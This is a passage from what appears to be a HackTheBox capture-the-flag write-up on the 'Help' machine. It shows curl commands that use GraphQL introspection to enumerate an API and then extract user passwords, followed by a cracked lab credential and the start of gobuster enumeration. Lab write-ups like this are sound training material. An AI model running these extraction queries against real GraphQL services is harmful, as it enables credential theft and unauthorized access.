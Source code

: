 > -Pn - Consider the host alive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2004:29:52.png)

## Port 3000

We open the browser on port 3000 to see what is it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2003:18:31.png)

It seems to be an API to nodejs. We start enumerating it

[GraphSQL Guide](https://www.pentestpartners.com/security-blog/pwning-wordpress-graphql/)

I will use `curl`, it's better to hit the API. Then I'll use -d '{ "query": "[query]" }' to send the query. Finally, I'll use jq to pretty see the results on the terminal.

```sh
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq  -c .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq -c .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __type(name: \"User\") { name fields { name } } }" }' | jq .

curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ user { username password } }" }' | jq .
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2003:24:06.png)

We crack it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2003:27:20.png)

```
helpme@helpme.com
godhelpmeplz
```

## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2004:28:57.png)

We look at the source code, nothing useful

Start enumerate it with `Gobuster` 

I'll run gobuster against the site

